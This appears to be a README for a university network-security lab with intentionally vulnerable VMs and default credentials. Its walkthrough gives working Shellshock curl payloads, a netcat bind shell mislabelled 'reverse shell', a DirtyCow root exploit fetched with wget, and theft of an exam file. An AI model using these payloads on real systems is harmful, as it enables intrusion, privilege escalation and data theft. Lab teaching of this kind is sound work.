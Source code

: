 # Network Security 2016 Project


### VM

Server VM be downloaded here: https://drive.google.com/open?id=0B5aLHLFCodGDTFBLRkQyWlJMNDg

Client VM can be downloaded here: https://drive.google.com/open?id=0B55ad1nR3eibV3IxT0lSYld0VTA

**Important:** Check that bridged networking is enabled (Settings > Network > Adapter 1 > Attached to: Bridged Adapter)

Then you can access the webserver running on the VM from your host system.

To get the IP of the VM, start it, login and run the command 'ip addr show eth0'.

**Users:** 

* root:root
* netsec:netsec

**To Update:**

* login as user 'netsec'
* cd netsec-project
* git pull
* sudo ./setup.sh

**Website:** &#60;IP-of-VM&#62;/cgi-bin/index.cgi


**If you want to restore /usr/bin/passwd:**

* sudo cp /opt/passwd.bkp /usr/bin/passwd


### How to Exploit

Shellshock:
```
curl -H "User-Agent: () { :; }; echo \"Content-type: text/plain\"; echo \"\"; echo \"\"; /bin/cat /etc/passwd" 192.168.1.110/cgi-bin/index.cgi
```

Reverse Shell:
```
curl -H "User-Agent: () { :; }; /bin/netcat -e /bin/bash -l -p 12345" 192.168.1.110/cgi-bin/index.cgi
```

Connect to Reverse Shell:
```
netcat 192.168.1.110 12345
```

Information Gathering:
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

DirtyCow root privilege escalation:
```
cd /tmp
wget <url>/c0w.c --no-check-certificate
gcc -pthread c0w.c -o c0w
./c0w

(Wait...)

/usr/bin/passwd
id
uid=0(root) gid=0(root) groups=0(root)
```

Get Network Security exam:
```
find / -name "exam.pdf"

cp /home/netsec/exam.pdf /tmp/exam.pdf

exit

curl -H "User-Agent: () { :; }; echo \"Content-Type: application/pdf\"; echo \"\"; echo \"\"; /bin/cat /tmp/exam.pdf" 192.168.1.110/cgi-bin/index.cgi > exam.pdf
```

